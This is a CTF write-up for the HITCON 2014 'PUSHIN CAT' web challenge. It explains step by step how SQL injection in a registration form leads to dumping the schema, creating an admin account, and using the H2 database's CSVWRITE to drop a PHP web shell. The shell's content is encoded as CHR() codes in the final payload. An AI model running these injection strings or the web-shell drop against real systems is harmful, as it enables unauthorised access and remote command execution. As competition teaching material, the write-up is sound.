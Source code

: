 # HITCON CTF 2014: PUSHIN CAT

**Category:** Web
**Points:** 350
**Description:**

> http://203.66.14.60/

**Hint:**

> The flag is file based. Try to get shell :P

## Write-up

Basically PUSHIN CAT offers only three functionalities: login, registration and the deceptive [“Get flag”](http://203.66.14.60/flag.html). The last one tells us “You are not admin from `X`”, where `X` is our IP address.

The displayed IP address quickly leads down a wrong route because trying to forge a local IP address (e.g. 127.0.0.1) with HTTP headers does not work. However, the registration page seems to be vulnerable to a very basic SQL injection vulnerability, as it responds with a “Query Error” to a single quote in the password field (the detail of the error message seems to have increased since we solved the challenge, so now you even get the surrounding query). Even without seeing the query, one can easily guess that it must be an `INSERT` into the database. After fiddling around with the injection, the format of the SQL query seems to be this one:

```sql
INSERT INTO [something...] VALUES ([some fields], 'INJECTION IN PW', 'IP')
```

This is great news, since the IP value is shown to us when clicking the “Get flag” button. We can further try to obtain the amount of parameters in the query with a multi-INSERT technique: `foo','IP'),(1,2)-- -`. This will insert 2 records into the database. We can continously increase the amount of parameters in the second query until there is no error anymore. This is the case with 4 parameters: `foo','IP'),(1,2,3,4)-- -`.

In order to dump the database schema and content, we can make use of subqueries: The injection syntax is `foo',(select 1))-- -`, where 1 could be any query returning only one row. Additionally, we can use `group_concat` to group multiple rows together and read out `information_schema.tables` and `information_schema.columns`. From there on we can easily see that the original query roughly looks like this:

```sql
INSERT INTO users (role, username, password, ip) VALUES ('user', $username, $pw (INJECTION HERE), $ip)
```

Using this knowledge, we can build a multi-INSERT injection to create a user with the role “admin”. Logging in with that user and clicking “Get flag” only yields the message “Give shell plz” (IIRC). Another dead end.

A test confirms another interesting property: Multiple SQL statements are allowed in the injection (which is only the case with very few database drivers), so we can use `;` to add other kinds of queries. But let's first re-check the database engine to know our possibilities: The injection `foo',(select version()))-- -` yields `PostgreSQL 8.1.4  server protocol using H2 1.4.178 (2014-05-02)`. Okay, so… Postgres? However, what is this H2 thingy? As it turns out it is the underlying database engine. In order to exploit the server, we can make use of [all functions](http://www.h2database.com/html/functions.html) this database engine exposes. One of them, called `CSVWRITE`, seems to be particularly useful to drop files in the web root. The injection would look like this:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT 1')-- -
```

As can be seen from the syntax, the second parameter to `CSVWRITE` is a query. This example would write a file called `shell.php` in the web root (we guessed that but could also easily check the Apache configuration with file reading functions). However, the file would only contain a `1`. In order to avoid escaping our own quotes, we can use the `CHR(decimal)` function and the concatenation operator. Here is the resulting injection, using all the tricks:

```
foo','');CALL CSVWRITE('/var/www/html/shell.php', 'SELECT CHR(60)||CHR(63)||CHR(112)||CHR(104)||CHR(112)||CHR(32)||CHR(115)||CHR(121)||CHR(115)||CHR(116)||CHR(101)||CHR(109)||CHR(40)||CHR(36)||CHR(95)||CHR(71)||CHR(69)||CHR(84)||CHR(91)||CHR(48)||CHR(93)||CHR(41)||CHR(59)||CHR(32)||CHR(63)||CHR(62)')-- -
```

In conclusion, a lot of the difficulity of this challenge came from the multiple dead ends and small steps involved. We certainly tried a billion other attacks before finding this exact route to exploit the web application, but we had a lot of fun while doing it ;-)

## Other write-ups and resources

* none yet
